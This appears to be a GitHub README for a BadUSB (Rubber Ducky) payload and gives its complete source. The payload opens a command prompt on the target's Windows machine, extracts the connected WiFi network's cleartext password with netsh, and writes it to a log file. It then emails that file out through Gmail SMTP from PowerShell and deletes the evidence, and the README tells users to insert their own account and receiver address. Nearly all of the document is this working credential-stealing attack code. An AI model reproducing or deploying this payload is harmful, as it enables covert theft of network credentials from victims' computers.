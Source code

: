 # This payload:
1. Opens CMD
2. Finds the key (password) of the WiFi the target is connected to
3. Saves the SSID, Network type, Authentication and the key to Log.txt
4. And emails Log.txt via gmail

### Change the following things;
* **ACCOUNT**: Your **gmail account**
* **PASSWORD**: Your **gmail password**
* **RECEIVER**: The email you want to send Log.txt to

If you have **any suggestions** please **tell me**.

## **Code**:
```
REM Author: Siem
REM Version: 2
REM Description: Clear text WiFi key grabber
DELAY 1000
WINDOWS d

REM --> Open cmd
WINDOWS r
DELAY 500
STRING cmd
ENTER
DELAY 1000

REM --> Getting SSID
STRING cd "%USERPROFILE%\Desktop" & for /f "tokens=2 delims=: " %A in ('netsh wlan show interface ^| findstr "SSID" ^| findstr /v "B"') do set A=%A
ENTER

REM --> Creating Temp.txt
STRING netsh wlan show profiles %A% | findstr "Network type" | findstr /v "broadcast" | findstr /v "Radio">>Temp.txt & netsh wlan show profiles %A% | findstr "Authentication">>Temp.txt & netsh wlan show profiles %A% key=clear | findstr "Key Content">>Temp.txt
ENTER

REM --> Get network type
STRING for /f "tokens=3 delims=: " %A in ('findstr "Network type" Temp.txt') do set B=%A
ENTER

REM --> Get authentication
STRING for /f "tokens=2 delims=: " %A in ('findstr "Authentication" Temp.txt') do set C=%A
ENTER

REM --> Get key
STRING for /f "tokens=3 delims=: " %A in ('findstr "Key Content" Temp.txt') do set D=%A
ENTER

REM --> Delete Temp.txt
STRING del Temp.txt
ENTER

REM --> Create Log.txt
STRING echo SSID: %A%>>Log.txt & echo Network type: %B%>>Log.txt & echo Authentication: %C%>>Log.txt & echo Password: %D%>>Log.txt
ENTER

REM --> Mail Log.txt
STRING powershell
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('ACCOUNT@gmail.com', 'PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'ACCOUNT@gmail.com'
ENTER
STRING $ReportEmail.To.Add('RECEIVER@gmail.com')
ENTER
STRING $ReportEmail.Subject = 'WiFi'
ENTER
STRING $ReportEmail.Body = 'The log is attached!'
ENTER
STRING $ReportEmail.Attachments.Add('Log.txt')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING exit
ENTER

REM --> Delete Log.txt and exit
STRING del Log.txt & exit
ENTER
```